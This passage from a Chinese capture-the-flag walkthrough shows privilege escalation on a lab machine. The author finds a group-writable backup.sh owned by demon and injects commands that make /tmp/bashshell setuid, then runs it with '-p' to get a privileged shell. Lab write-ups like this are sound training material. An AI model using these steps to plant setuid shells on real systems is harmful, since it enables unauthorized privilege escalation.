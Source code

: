 > 拿到 pinky 用户权限

### 提权信息收集

在历史命令中 `/home/pinky/bash_history`，发现编辑过`backup.sh`。  
`-rwxrwx--- 1 demon pinky 217 Oct 15 08:35 /usr/local/bin/backup.sh`  
backup.sh。所有者为 demon，属组为 pinky。但当前 pinky 用户属组为 stefano。newgrp 命令切换当前为 pinky 组即可编辑。

[![](assets/1703831476-e7605c2de770b43632329aeff1a525f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224625-b5c2a928-a4c6-1.png)

## 九、shell as user3

留意到 backup.sh 可能是个自动备份程序，可以尝试写入反弹 shell。这里尝试的是 `bash -p` ，记得输入 bash 调回系统原生 bash，不然有些命令可能会报错  
编辑 backup.sh，加入：

```bash
chmod ugo+x /tmp/bashshell
chmod u+s /tmp/bashshell
```

```bash
/bashshell -p
bash
```
